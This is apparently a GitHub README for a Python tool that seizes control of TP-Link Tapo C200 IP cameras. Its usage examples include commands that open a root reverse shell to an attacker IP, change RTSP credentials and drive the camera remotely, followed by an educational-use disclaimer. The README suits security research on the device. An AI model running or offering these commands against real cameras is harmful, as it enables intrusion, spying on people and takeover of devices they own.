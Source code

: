 # Tapo C200 Control Script

![Tapo C200 Banner](images/control.png)

A powerful Python script to gain full control over TP-Link Tapo C200 IP cameras. This tool provides root access, RTSP credential modification, and complete camera control capabilities.

**⚠️ Disclaimer**: This project is for educational and security research purposes only. Use only on devices you own or have permission to test.

## Key Features

- 🛠️ **Full Root Access**: Obtain a reverse shell with root privileges
- 🔑 **RTSP Control**: Modify video stream credentials
- 🎥 **Camera Control**:
  - Pan/tilt movement control
  - Privacy mode toggle (lens cover)
  - Preset position management (save/recall up to 8 positions)
  - Camera reboot and reset functions
- 📡 **Network Integration**: Easy setup for remote access

## Installation

1. Clone the repository:

  ```bash
  git clone https://github.com/yourusername/tapo-c200-control.git
  cd tapo-c200-control
  ```
2. Install required dependencies:

  ```bash
  pip install requests urllib3
  ```

## Usage
### Basic Command Structure
```bash
python3 tapocontrol.py -t <TARGET_IP> -a <ATTACKER_IP> -m <MODE> [OPTIONS]
```

### Modes of Operation
| Mode    | Description                        | Required Options     |
|---------|------------------------------------|----------------------|
| shell   | Get a reverse shell on the camera  | -p  (listening port) |
| rtsp    | Change RTSP stream credentials     | None                 |
| control | Interactive camera control console | None                 |

### Full Options
```text
Required Arguments:
  -t, --target         Tapo C200 IP address
  -a, --attacker       Your IP address for reverse shell callback
  -m, --mode           Operation mode (shell|rtsp|control)

Optional Arguments:
  -p, --revshell-port  Port for reverse shell (default: 1337)
  -v, --verbose        Enable verbose debugging output
```

## Examples
### Get a reverse shell:

```bash
python3 tapocontrol.py -t 192.168.1.100 -a 192.168.1.50 -m shell -p 4444
```

### Change RTSP credentials:

```bash
python3 tapocontrol.py -t 192.168.1.100 -a 192.168.1.50 -m rtsp
```

### Control camera movements:

```bash
python3 tapocontrol.py -t 192.168.1.100 -a 192.168.1.50 -m control
```

### Control Console Commands

Once in control mode, use these commands:

| Command           | Description                      |
|-------------------|----------------------------------|
| up [steps]        | Move camera up                   |
| down [steps]      | Move camera down                 |
| left [steps]      | Move camera left                 |
| right [steps]     | Move camera right                |
| stop              | Stop all movement                |
| preset_goto <1-8> | Recall saved preset position     |
| preset_set <1-8>  | Save current position as preset  |
| privacy_on        | Enable privacy mode (close lens) |
| privacy_off       | Disable privacy mode             |
| reboot            | Reboot the camera                |
| reset             | Reset camera to default position |
| exit              | Quit the control console         |

### Screenshots
#### Root shell access via reverse TCP connection
![Shell demo](images/shell.png)

#### Modifying RTSP stream credentials
![RTSP demo](images/rtsp.png)

#### Interactive camera control console
![Control mode demo](images/control.png)

## Security Notice
This script demonstrates security vulnerabilities in the Tapo C200 camera system. TP-Link has been notified about these issues.

### Important:

* Use only on devices you own
* Never deploy on networks without permission
* Understand that this may violate terms of service

### Author
[@TryH4ckM3](https://t.me/TryH4ckM3) - Security Researcher

